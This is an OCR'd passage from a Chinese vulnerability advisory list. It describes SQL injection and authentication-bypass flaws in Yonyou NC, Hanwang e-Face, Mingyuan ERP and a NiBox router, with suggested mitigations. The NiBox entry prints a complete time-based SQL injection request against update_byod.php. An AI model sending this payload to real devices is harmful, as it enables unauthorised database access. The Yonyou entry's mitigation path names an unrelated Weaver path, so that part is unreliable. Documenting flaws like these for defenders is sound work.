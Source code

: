 修复建  
议：  
  
限制访问 /demo/mail/sendMessageWithAttachment和 /demo/mail/sendMessageWithAttachments 接口  或 升级至 RuoYi-Vue-Plus ≥ 5.4.1 版本  
  
  
漏  
洞名称  
：用友NC changeEvent SQL注入漏洞  
  
漏洞描述：  
  
changeEvent接口存在SQL注入漏洞，未授权攻击者可获取数据库权限并导致服务器失陷。  
  
修复建议：  
  
限制访问  
/weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownloadLocation路径  
  
  
漏洞名称：  
汉王e脸通综合管理平台SQL注入漏洞  
  
漏洞描述：  
  
queryManyPeopleGroupList.do接口存在SQL注入漏洞，攻击者可获取数据库敏感信息。  
  
修复建议：  
  
限制访问  
/manage/authMultiplePeople/queryManyPeopleGroupList.do  
  
  
漏洞名称：  
明源地产ERP身份认证绕过漏洞  
  
漏洞描述：  
  
明源地产ERP存在未公开身份认证绕过漏洞，攻击者可绕过验证直接访问管理后台窃取企业信息。检  
  
修复建议：  
  
监测  
/PubPlatform/nav/login/sso/login.aspx及user_info的请求  
  
  
漏洞名称：  
NiBox路由器SQL注入漏洞  
  
漏洞描述：  
  
authentication/update_byod.php接口存在SQL注入漏洞  
```
POST /authentication/update_byod.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close

update=1&macAddress=1' AND (SELECT 2222 FROM (SELECT(SLEEP(5)))ogZo) AND 'NXsn'='NXsn&oldMacAddress=
```  
  